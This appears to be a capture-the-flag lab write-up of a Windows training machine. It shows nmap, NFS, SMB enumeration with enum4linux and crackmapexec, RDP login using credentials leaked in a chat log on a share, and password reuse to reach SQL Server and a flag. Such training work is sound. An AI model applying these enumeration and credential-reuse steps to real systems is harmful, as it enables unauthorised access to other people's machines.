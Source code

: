 ```
└─$ sudo nmap -T5 10.129.202.41           
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-24 20:47 EDT
Nmap scan report for 10.129.202.41
Host is up (0.056s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE
111/tcp  open  rpcbind
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2049/tcp open  nfs
3389/tcp open  ms-wbt-server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=WINMEDIUM


```

RDP doesn't seem useful need a Kerberos ticket for authentication.
Take a look at SMB on 445
## NFS
```
└─$ showmount -e 10.129.202.41                
Export list for 10.129.202.41:
/TechSupport (everyone)

```

It does not appear we can view the NFS share

![image](https://github.com/user-attachments/assets/9151d322-5a3b-49fb-802a-4d168cfe539d)


SMB map doesn't appear to find anything even using the provided credentials, going to use enum4linux next


NFS was able to work and found a file that was larger than the rest
```
Conversation with InlaneFreight Ltd

Started on November 10, 2021 at 01:27 PM London time GMT (GMT+0200)
---
01:27 PM | Operator: Hello,. 
 
So what brings you here today?
01:27 PM | alex: hello
01:27 PM | Operator: Hey alex!
01:27 PM | Operator: What do you need help with?
01:36 PM | alex: I run into an issue with the web config file on the system for the smtp server. do you mind to take a look at the config?
01:38 PM | Operator: Of course
01:42 PM | alex: here it is:

 1smtp {
 2    host=smtp.web.dev.inlanefreight.htb
 3    #port=25
 4    ssl=true
 5    user="alex"
 6    password="lol123!mD"
 7    from="alex.g@web.dev.inlanefreight.htb"
 8}
 9
10securesocial {
11    
12    onLoginGoTo=/
13    onLogoutGoTo=/login
14    ssl=false
15    
16    userpass {      
17      withUserNameSupport=false
18      sendWelcomeEmail=true
19      enableGravatarSupport=true
20      signupSkipLogin=true
21      tokenDuration=60
22      tokenDeleteInterval=5
23      minimumPasswordLength=8
24      enableTokenJob=true
25      hasher=bcrypt
26      }
27
28     cookie {
29     #       name=id
30     #       path=/login
31     #       domain="10.129.2.59:9500"
32            httpOnly=true
33            makeTransient=false
34            absoluteTimeoutInMinutes=1440
35            idleTimeoutInMinutes=1440
36    }   

```

Lets see if we can RDP now
`sudo xfreerdp /v:10.129.202.41 /u:alex /p:'lol123!mD' /cert:ignore /d:WINMEDIUM /dynamic-resolution`

with that we have RDP access to the host now to find passwords in the SQL server I believe based on the hint 
"In SQL Management Studio, we can edit the last 200 entries of the selected database and read the entries accordingly. We also need to keep in mind, that each Windows system has an Administrator account"

It appears we need an alternative user SA does not appear to be the user for 
![image](https://github.com/user-attachments/assets/cda2d9ab-b51c-4460-84c5-3e2babe4d70c)

Let's enumerate SMB instead

`enum4linux -a -u "alex" -p "lol123!mD" 10.129.202.41`
`crackmapexec smb 10.129.202.41 --shares -u 'alex' -p 'lol123!mD' -d 'WINMEDIUM'`

```
┌──(kali㉿kali)-[~/Downloads]
└─$ crackmapexec smb 10.129.202.41 --shares -u 'alex' -p 'lol123!mD' -d 'WINMEDIUM'
SMB         10.129.202.41   445    WINMEDIUM        [*] Windows 10 / Server 2019 Build 17763 x64 (name:WINMEDIUM) (domain:WINMEDIUM) (signing:False) (SMBv1:False)
SMB         10.129.202.41   445    WINMEDIUM        [+] WINMEDIUM\alex:lol123!mD 
SMB         10.129.202.41   445    WINMEDIUM        [+] Enumerated shares
SMB         10.129.202.41   445    WINMEDIUM        Share           Permissions     Remark
SMB         10.129.202.41   445    WINMEDIUM        -----           -----------     ------
SMB         10.129.202.41   445    WINMEDIUM        ADMIN$                          Remote Admin
SMB         10.129.202.41   445    WINMEDIUM        C$                              Default share
SMB         10.129.202.41   445    WINMEDIUM        devshare        READ,WRITE      
SMB         10.129.202.41   445    WINMEDIUM        IPC$            READ            Remote IPC
SMB         10.129.202.41   445    WINMEDIUM        Users           READ            
                                                                                                                                                                   
┌──(kali㉿kali)-[~/Downloads]
└─$ 

```

devshare has read-write permissions
`smbclient -U alex \\\\10.129.202.41\\devshare`
![image](https://github.com/user-attachments/assets/214db3df-749e-4c2f-b450-3ddd2b45d657)
we now have the sa creds
![image](https://github.com/user-attachments/assets/4af21542-3ed6-4f86-91be-b02384a0bf63)
sa:87N1ns@slls83

It appears sa does not match that password. Keep in mind the hint is We also need to keep in mind, that each Windows system has an Administrator account. so let's test for password reuse.
I Ran SQL as admin with the creds above and the program opened. and connected to the database

![image](https://github.com/user-attachments/assets/08489cc0-457a-490c-aebe-027e6ada05ba)

Found a table and created a query to find HTB user in the table, which has our flag.
![image](https://github.com/user-attachments/assets/c7ee98bb-ebfe-4273-946f-747808d1f8b7)

